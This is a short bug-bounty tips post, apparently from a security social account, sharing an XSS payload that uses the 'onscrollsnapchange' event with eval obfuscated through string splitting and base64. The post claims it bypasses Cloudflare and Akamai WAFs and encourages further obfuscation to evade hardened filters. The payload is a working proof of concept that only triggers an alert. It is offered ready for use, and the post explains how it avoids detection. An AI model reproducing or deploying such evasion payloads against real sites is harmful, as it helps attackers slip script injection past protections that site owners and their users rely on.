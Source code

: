 ## 🚨 New WAF Bypass for Akamai & Cloudflare

### 🛡 XSS Payload via `onscrollsnapchange` + Obfuscation

Researchers found a new way to bypass some WAF rules using the obscure `onscrollsnapchange` event in combination with obfuscated `eval` logic.

### 💥 Payload:

```html
<address onscrollsnapchange=window['ev'+'a'+(['l','b','c'][0])]
(window['a'+'to'+(['b','c','d'][0])]('YWxlcnQob3JpZ2luKQ=='));
style=overflow-y:hidden;scroll-snap-type:x>
<div style=scroll-snap-align:center>1337</div></address>
```

### 🔍 How It Works:

* `onscrollsnapchange` is rarely filtered and often overlooked by WAFs.
* `eval` is split and dynamically reconstructed: `['l','b','c'][0] = 'l'` → `eval`.
* Base64 payload `YWxlcnQob3JpZ2luKQ==` decodes to `alert(origin)`.
* Scroll and display styles help it render smoothly, evading suspicion.

### ✅ Tested Bypasses:

* Cloudflare (standard security settings)
* Akamai WAF profiles

### 💡 Pro Tip:

Explore lesser-known HTML/JS attributes + obfuscation strategies to bypass hardened WAFs. This combo is effective for finding edge-case vulnerabilities.

---

🔔 Follow **@cybersecplayground** for more cutting-edge bypasses, CVE drops, and recon techniques.

🔗 View more XSS payloads: [XSS\_Payload.txt](https://github.com/cybersecplayground/bugbounty-Tips-and-Tricks/blob/main/Payloads/XSS_Payload.txt)

---

\#xss #wafbypass #akamai #cloudflare #bugbountytips #cybersec #infosec #cybersecplayground
